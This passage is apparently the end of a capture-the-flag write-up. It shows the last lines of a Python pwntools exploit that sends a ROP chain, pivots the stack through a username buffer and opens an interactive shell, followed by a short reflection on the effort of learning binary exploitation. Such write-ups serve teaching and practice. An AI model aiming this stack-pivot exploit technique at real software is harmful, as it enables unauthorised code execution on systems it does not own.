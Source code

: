 ```python
p.sendline(ropchain)
p.recv()
"""
0x08048fc9 <+397>:	lea    esp,[ecx-0x4]
0x08048fcc <+400>:	ret
On ajoute donc 4 a user name pour compenser le -0x4
"""
usernameAddr = 0x80EB2C0
ESP = usernameAddr + 4 # Fix the offset before ret
p.sendline("1" * 28 + p32(ESP))
p.recv()
p.sendline("10")
p.recv()
p.interactive()
```

Let's run it, it would be crazy to see it working at the first time, wouldn't it? :O

<img class="img_full" src="run_exploit.png" alt="run_exploit" >

Bim, shell, first try, too IZI mannnn!

<img class="img_med" src="like_a_boss.jpg" alt="like_a_boss" >

Except... Except it's not as easy.

By reading an article like that, it doesn't seem that complex, a little bit messy, at most. Except that for each step, unless you are really good at it (Geluchat, Blackndoor, Pixis, Klaoude, Antoxyde, Ethnical, Reglisse...), it is hours, days (well, nights, we understand each other now ;) ) that are spend learning this. But trying hard to finally get there, what a satisfaction!
